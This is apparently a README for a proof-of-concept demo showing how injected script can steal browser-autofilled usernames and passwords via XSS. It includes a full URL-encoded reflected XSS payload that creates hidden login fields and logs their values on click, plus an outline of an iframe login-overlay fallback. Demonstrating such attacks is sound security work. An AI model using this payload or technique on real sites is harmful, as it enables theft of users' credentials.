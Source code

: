 # xss-autofil

To see it in action, 'log in' on the `index.html` page. When your browser asks to save your password, allow it.

The `logged-in.html` page has a mock XSS vulnerability and loads a malicious script, `xss.js`.

This script adds a username and password field to the page, which your browser will kindly autofill.

But we can't access the values in these fields without some sort of user interaction, 
so we listen for a click event on window, at which point the fields are filled and we can get the values from the inputs.

## Reflected XSS
Since the script is quite short, it will fit in a URL for reflected XSS attacks, e.g. `q=%3Cscript%3Evar%20u%3Ddocument.createElement(%22input%22)%3Bu.name%3D%22username%22%2Cu.hidden%3D!0%2Cdocument.body.appendChild(u)%3Bvar%20p%3Ddocument.createElement(%22input%22)%3Bp.name%3D%22password%22%2Cp.type%3D%22password%22%2Cp.hidden%3D!0%2Cdocument.body.appendChild(p)%2Cwindow.addEventListener(%22click%22%2C()%3D%3E%7Bconsole.log(%60%20username%3A%20%24%7Bu.value%7D%0A%20password%3A%20%24%7Bp.value%7D%60)%7D)%3B%3C%2Fscript%3E`

This script could be targeted on a per-page basis, to get the username and password input names right, or it could just contain 
many variations of common username and password input names so the browser will autofill at least some of them.

## Fallback when the fields aren't autofilled
The script could be extended to display the login page of the site in an iframe, layered over the page where the XSS payload executes.
In this instances, a click even would be registered on the submit button that captures the username/password, stops propagation, and removes the iframe.
